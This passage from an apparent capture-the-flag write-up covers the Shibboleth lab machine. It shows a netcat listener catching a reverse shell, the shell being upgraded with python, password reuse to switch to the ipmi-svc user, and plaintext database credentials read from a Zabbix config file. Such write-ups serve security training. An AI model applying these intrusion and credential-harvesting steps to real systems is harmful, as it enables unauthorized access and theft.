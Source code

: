 As we click on test again we get a reverse shell on our listener, which we upgrade using python.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.255.116.
Ncat: Connection from 10.129.255.116:53536.
bash: cannot set terminal process group (1204): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ export TERM=xterm
export TERM=xterm
zabbix@shibboleth:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

zabbix@shibboleth:/$ stty rows 69 cols 236
```

There is only one user which has a directory in `/home` `ipmi-svc`.

```
zabbix@shibboleth:/$ ls -la /home/
total 12
drwxr-xr-x  3 root     root     4096 Oct 16 12:24 .
drwxr-xr-x 19 root     root     4096 Oct 16 16:41 ..
drwxr-xr-x  4 ipmi-svc ipmi-svc 4096 Nov 13 20:42 ipmi-svc
```

Using the earlier found IPMI/zabbix password we are able to switch user and can grab the first flag.

```
zabbix@shibboleth:/$ su ipmi-svc
Password:
ipmi-svc@shibboleth:/$ wc -c /home/ipmi-svc/user.txt
33 /home/ipmi-svc/user.txt
```

# Root

Checking the `/etc/zabbix/zabbix_server.conf` it leaks the credentials for the database access.

```
ipmi-svc@shibboleth:/$ cat /etc/zabbix/zabbix_server.conf | grep -v ^# | grep .
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```
